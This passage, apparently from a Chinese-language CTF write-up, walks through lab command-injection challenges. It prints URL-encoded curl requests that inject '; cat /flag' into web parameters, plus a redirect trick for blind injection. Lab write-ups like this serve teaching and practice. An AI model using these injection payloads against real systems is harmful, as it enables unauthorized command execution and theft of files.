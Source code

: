 ## 思路

依旧是利用;

注意单引号。ls -l ''会报错，但不影响后面的指令的执行。

```
curl -v http://challenge.localhost:80/?directory=%27%20%3B%20cat%20%2Fflag%20%3B%20ls%20%27
```



# 06-cmdi-4

## 描述

依旧是构造指令。

我构造的指令如下：

```
TZ=; cat /flag # date
```



## 实现

exp

```
curl -v http://challenge.localhost:80/?timezone=%3B%20cat%20%2Fflag%20%23
```



# 07-cmdi-5

## 问题描述

你依旧可以执行指令，可以cat /flag。但是不会有任何的输出。

## 思路

所以就要重定向，然后本地打开。

## 实现

exp

```
; cat /flag > /home/hacker/flag
```

url编码，请求后，/home/hacker/flag就会出现，读就行了。
